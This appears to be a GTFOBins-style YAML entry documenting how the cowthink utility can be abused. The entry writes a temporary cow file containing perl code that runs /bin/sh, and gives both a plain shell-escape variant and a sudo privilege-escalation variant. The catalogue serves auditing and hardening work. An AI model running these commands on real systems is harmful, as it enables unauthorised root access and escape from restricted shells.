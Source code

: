 ```yaml
---
description: It allows to execute [`perl`](../perl/index.html) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowthink -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowthink -f $TF x
---
```


